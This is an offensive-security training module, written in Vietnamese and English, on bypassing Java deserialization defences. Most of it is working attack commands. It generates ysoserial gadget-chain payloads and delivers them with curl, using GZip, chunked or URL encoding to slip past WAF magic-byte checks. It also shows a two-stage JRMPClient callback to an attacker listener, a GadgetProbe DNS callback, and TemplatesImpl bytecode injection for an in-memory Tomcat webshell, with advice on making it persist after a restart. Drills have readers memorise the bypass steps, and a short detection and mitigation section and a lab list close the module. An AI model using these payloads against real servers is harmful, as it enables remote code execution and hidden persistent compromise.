

> **Prerequisites**: [[09-java-gadget-chains-ysoserial|09. Gadget Chains & ysoserial]], [[12-java-rmi-jmx|12. Java RMI/JMX]], [[13-jboss-jenkins-deserialization|13. JBoss/Jenkins]]
> **Objectives**:
> - Bypass WAF magic byte detection bằng encoding/compression tricks
> - Chọn alternative gadget chain khi class bị blacklist
> - Bypass `ObjectInputFilter` whitelist/blacklist configurations
> - Inject in-memory webshell để tránh disk artifacts và RASP detection

---

## Điều kiện khai thác

> [!note] Điều kiện
> - Đã xác nhận Java deserialization tồn tại (URLDNS probe đã thành công)
> - Standard ysoserial payloads bị block (WAF hoặc server-side filter)
> - Cần deliver payload mà bypass một hoặc nhiều defense layers

> [!tip] Context quan trọng
> Bài này áp dụng *sau* khi đã confirm deserialization endpoint — không phải technique để tìm endpoint mới. Nếu URLDNS probe bị block cả rồi, đây là lúc cần các bypass techniques này.

---

## Cơ chế phòng thủ và bypass tương ứng

![[assets/img-15-filter-bypass.png]]
*Hình 1: 4 lớp defense (ngoài → trong) và bypass technique tương ứng cho mỗi lớp.*

---

## Layer 1: WAF Bypass — Magic Byte Obfuscation

WAF thường detect pattern `AC ED 00 05` trong raw TCP hoặc `rO0AB` trong base64 content.

### Bypass 1a: GZip Wrapping

```bash
# Wrap serialized payload trong GZip trước khi encode
java -jar ysoserial.jar CommonsCollections6 "sleep 5" > /tmp/payload.ser

# GZip wrap
gzip -c /tmp/payload.ser > /tmp/payload.ser.gz

# Deliver — server cần support GZip decompression
curl http://TARGET:8080/endpoint \
  -H "Content-Encoding: gzip" \
  -H "Content-Type: application/x-java-serialized-object" \
  --data-binary @/tmp/payload.ser.gz
```

### Bypass 1b: Chunked Transfer Encoding

```bash
# HTTP chunked encoding splits body — WAF nhiều khi không reassemble
# Burp Suite: Extensions → Chunked Encoding → add chunked encoding to request

# Manual via Python
python3 -c "
import socket, struct

payload = open('/tmp/payload.ser', 'rb').read()
b64 = __import__('base64').b64encode(payload).decode()

# Split payload into chunks
chunk_size = 64
chunks = [b64[i:i+chunk_size] for i in range(0, len(b64), chunk_size)]
chunked_body = ''.join(f'{len(c):x}\r\n{c}\r\n' for c in chunks) + '0\r\n\r\n'
print(chunked_body[:100])
"
```

### Bypass 1c: URL Encoding

```bash
# URL-encode raw bytes — some WAFs only check plaintext patterns
python3 -c "
import urllib.parse
payload = open('/tmp/payload.ser', 'rb').read()
print(urllib.parse.quote(payload))
" | curl http://TARGET:8080/endpoint \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data-urlencode "data@-"
```

---

## Layer 2: SerialKiller / Agent Blacklist Bypass

SerialKiller và NotSoSerial intercept `resolveClass()` và block class names matching blacklist patterns (e.g., `org.apache.commons.collections.functors.InvokerTransformer`).

### Bypass 2a: Switch Gadget Chain Family

```bash
# CommonsCollections bị blacklist? Dùng CommonsBeanutils1 (hoàn toàn khác class tree)
java -jar ysoserial.jar CommonsBeanutils1 "bash -c '...'" > payload.ser
# CommonsBeanutils1 KHÔNG dùng InvokerTransformer hay LazyMap — bypass CC-specific blacklist

# Spring gadgets — không phụ thuộc commons-* classes
java -jar ysoserial.jar Spring1 "bash -c '...'" > spring.ser
java -jar ysoserial.jar Spring2 "bash -c '...'" > spring2.ser

# Groovy1 — nếu Groovy trong classpath
java -jar ysoserial.jar Groovy1 "bash -c '...'" > groovy.ser
```

### Bypass 2b: ROME / Deduced Gadgets

```bash
# ROME là RSS library với exploitable gadget chain
java -jar ysoserial.jar ROME "bash -c '...'" > rome.ser

# JRMPClient — two-stage, bypasses single-gadget blacklists
# Stage 1: JRMPClient không dùng CC classes
java -jar ysoserial.jar JRMPClient "LHOST:JRMP_PORT" > jrmp.ser
# Stage 2: JRMPListener gửi payload thực khi server connect về
java -cp ysoserial.jar ysoserial.exploit.JRMPListener JRMP_PORT CC6 "bash -c '...'"
```

### Bypass 2c: GadgetProbe — Enumerate Available Gadgets

```bash
# GadgetProbe dùng DNS để detect class presence trên classpath
# Download: https://github.com/BishopFox/GadgetProbe
java -jar GadgetProbe.jar \
  --url "http://TARGET:8080/endpoint" \
  --cookie "session=PLACEHOLDER" \
  --dns-callback "collab.oastify.com"
```

> **Expected output**: Danh sách class names confirmed present → chọn đúng gadget chain.

---

## Layer 3: ObjectInputFilter (JEP 290) Bypass

`ObjectInputFilter` là JDK 9+ native filter, checked at JVM level trước khi `readObject()` completes.

### Hiểu Blacklist vs Whitelist Mode

```java
// Blacklist mode (chặn specific classes):
// jdk.serialFilter=!org.apache.commons.collections.**;!com.sun.org.apache.**
// → Chỉ chặn những gì trong list → find gadget not in list

// Whitelist mode (chỉ allow specific classes):
// jdk.serialFilter=com.example.safeclass;!*
// → Chặn tất cả trừ whitelist → rất khó bypass
```

### Bypass 3a: Blacklist Mode — Alternative Gadget

```bash
# Xác định xem là blacklist hay whitelist từ error message
# "filter status: REJECTED" cho class X → X bị chặn
# Thử class Y không trong blacklist

# Nếu CC bị block nhưng BeanUtils không:
java -jar ysoserial.jar CommonsBeanutils1 "cmd" > payload.ser

# Nếu cả CC và BeanUtils bị block, thử JDK internal (pre-JDK16):
# Translets gadget dùng com.sun.org.apache.xalan.internal
java -jar ysoserial.jar CommonsCollections2 "cmd" > cc2.ser
# CC2 dùng Javassist + TemplatesImpl — different class tree
```

### Bypass 3b: Whitelist Mode — Application-Class Gadgets

```bash
# Khi whitelist strict, cần gadget trong whitelisted classes của application
# Requires source code / whitebox access

# Inspect filter configuration
# Look for application classes with dangerous method calls
# Use Gadget Inspector: github.com/JackOfMostTrades/gadgetinspector
java -jar gadgetinspector.jar target.jar
```

### Bypass 3c: JDK Internal Gadget (JDK < 16)

```bash
# TemplatesImpl gadget dùng com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl
# Requires JDK flag để access từ unnamed module (JDK 9-15)
java --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
     -jar ysoserial.jar CommonsCollections2 "cmd" > cc2_internal.ser
# Works khi CC6 bị blacklist tên class cụ thể
```

---

## Layer 4: In-Memory Webshell — RASP Bypass

RASP (Runtime Application Self-Protection) block `Runtime.exec()` calls. Bypass: inject code vào running JVM mà không gọi exec().

### Concept: ClassLoader Injection

```java
// Thay vì Runtime.exec("cmd"), attacker inject một Servlet/Filter vào running JVM:
// 1. Trong gadget chain, thay InvokerTransformer("exec") bằng code tạo new class
// 2. Class mới: HttpServlet với doGet() chạy OS commands
// 3. Register class vào running Servlet container (Tomcat/Jetty)
// 4. Access webshell via browser — không có process spawn
```

### Bước 1: Custom Transformer Gadget (Sketch)

```java
// Custom payload — thay vì CommonsCollections standard:
// Sử dụng TemplatesImpl để load malicious bytecode

byte[] shellcodeBytes = /* compiled malicious class bytes */;

TemplatesImpl templates = new TemplatesImpl();
setField(templates, "_bytecodes", new byte[][]{shellcodeBytes});
setField(templates, "_name", "Exploit");
setField(templates, "_tfactory", new TransformerFactoryImpl());

// Khi templates.newTransformer() được gọi → shellcode executes in JVM memory
```

### Bước 2: ysoserial Custom Payload với Class Injection

```bash
# Compile malicious servlet
javac InMemoryShell.java

# Convert to byte array
python3 -c "
import base64
data = open('InMemoryShell.class', 'rb').read()
print(base64.b64encode(data).decode())
"

# Integrate vào custom ysoserial gadget
# (Advanced — cần modify ysoserial source hoặc dùng Ysoserial fork)
```

### Bước 3: Tomcat Memory Webshell (Practical)

```bash
# Dùng pre-built tool: TomcatMemShell hoặc GodzillaShell
# Deliver via existing deserialization gadget chain:
# gadget chain payload → defineClass(webshell bytes) → register Servlet → access

# Tools:
# - https://github.com/c0ny1/memshell-generator (generate class bytes)
# - Combine với ysoserial gadget via TemplatesImpl
```

> [!danger] In-memory webshell không để lại file trên disk
> Blue team sẽ không tìm thấy bằng file scan. Nhưng restart JVM sẽ xóa shell. Để persistent: tạo mechanism để re-inject sau restart.

---

## Cây quyết định



---

## Command Cheatsheet

**WAF Bypass**

```bash
# GZip wrap
gzip -c payload.ser > payload.ser.gz
curl TARGET -H "Content-Encoding: gzip" --data-binary @payload.ser.gz

# Test raw binary (skip base64)
curl TARGET -H "Content-Type: application/octet-stream" --data-binary @payload.ser

# Chunked via Burp — Extensions > Transfer-Encoding Chunked
```

**Alternative Gadget Chains**

```bash
# In priority order when CC is blocked:
java -jar ysoserial.jar CommonsBeanutils1 "cmd" > cb.ser
java -jar ysoserial.jar Spring1            "cmd" > sp.ser
java -jar ysoserial.jar ROME               "cmd" > rome.ser
java -jar ysoserial.jar JRMPClient "LHOST:PORT"  > jrmp.ser  # two-stage

# With JDK 16+ flags for internal gadgets
java --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
     --add-opens=java.base/java.net=ALL-UNNAMED \
     --add-opens=java.base/java.util=ALL-UNNAMED \
     -jar ysoserial.jar CommonsCollections2 "cmd" > cc2.ser
```

**GadgetProbe Classpath Enum**

```bash
# Enumerate what's available on target classpath
java -jar GadgetProbe.jar \
  --payloads "ysoserial-payloads.json" \
  --dns "collab.oastify.com" \
  --url "http://TARGET/endpoint"
```

---

## Daily Drill

**Thời gian**: 20 phút/ngày trong 7 ngày.

**Drill 1 — GZip bypass flow**
Mục tiêu: thuộc lòng 3-step WAF bypass.

```bash
# 1. Generate
java -jar ysoserial.jar CC6 "sleep 5" > p.ser
# 2. GZip
gzip -c p.ser > p.ser.gz
# 3. Deliver with header
curl TARGET -H "Content-Encoding: gzip" --data-binary @p.ser.gz
```

Luyện cho đến khi: 3 bước trong < 1 phút.

**Drill 2 — Alternative gadget selection**
Mục tiêu: nhớ thứ tự ưu tiên các gadget chains.

```
CC6 → CommonsBeanutils1 → Spring1 → ROME → JRMPClient → custom
```

Luyện cho đến khi: đọc danh sách này ra mà không cần nhìn notes.

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **WAF evasion**: HTTP requests với `Content-Encoding: gzip` đến Java serialization endpoints không có lý do → suspicious
> **Filter bypass**: Bursts của deserialization errors với *different* class names → attacker đang trial gadgets
> **In-memory shell**: Unexpected HTTP handler hoặc Servlet path mapping xuất hiện trong JVM → memory injection
> **JVM monitoring**: New class definitions tại runtime từ deserialization context → RASP alert

> [!note] Mitigation
> - WAF: Enable deep packet inspection kể cả với compressed/chunked content
> - Filter: Dùng whitelist (allowlist) thay vì blacklist — blacklist luôn có thể bị bypass
> - RASP: Monitor class definition events trong JVM runtime
> - Defense-in-depth: Không rely vào single filter layer

---

## Lab Thực hành

| Platform | Machine | Tại sao phù hợp |
|----------|---------|----------------|
| PortSwigger | **Exploiting deserialization with a custom gadget chain** | Custom chain / whitebox scenario |
| HTB | **Advanced deserialization boxes** | Multi-layer filter environments |
| Custom | **SerialKiller demo** | Deploy SerialKiller và practice bypass |
| Custom | **Tomcat + WAF** | Local Docker với ModSecurity WAF |
